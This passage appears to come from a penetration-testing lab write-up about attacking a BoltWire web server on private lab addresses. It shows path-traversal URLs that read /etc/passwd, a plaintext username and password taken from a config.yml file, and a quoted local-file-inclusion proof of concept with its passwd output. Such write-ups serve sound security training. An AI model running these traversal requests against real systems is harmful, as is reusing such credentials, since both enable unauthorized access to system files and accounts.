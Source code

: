 ## Webserver 8080

![[Capstone Dev03.png]]

by visiting one of the top rows, we see that it opens the page by using "p=" this could lead to an local file intrusion:

```
http://10.10.1.154:8080/dev/index.php?p=../../../../../../../../../../../etc/passwd
```

it did not  work. Lets keep on enumerating. 

I tried a lot of different enumeration methods on this site but found nothing, except that we could register an account.

Lets go back an step and further enumerate the "config" folder:

```
http://10.10.1.154/app/config/
```

on the second time, I actually found an credential (No idea how I missed it first time...) in the config.yml file.

Username: bolt
Password: I_love_java

an ssh attempt with the credentials was not possible.

## Exploitation

Since the webserver is running BoltWire, lets search if there is any RCE for this service:

```bash
searchsploit boltwire

BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities

BoltWire 6.03 - Local File Inclusion
```

```bash
searchsploit -m php/webapps/48411.txt
cat 48411.txt
```

```
LFI:

Steps to Reproduce:

1) Using HTTP GET request browse to the following page, whilst being authenticated user.
http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd

Result

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```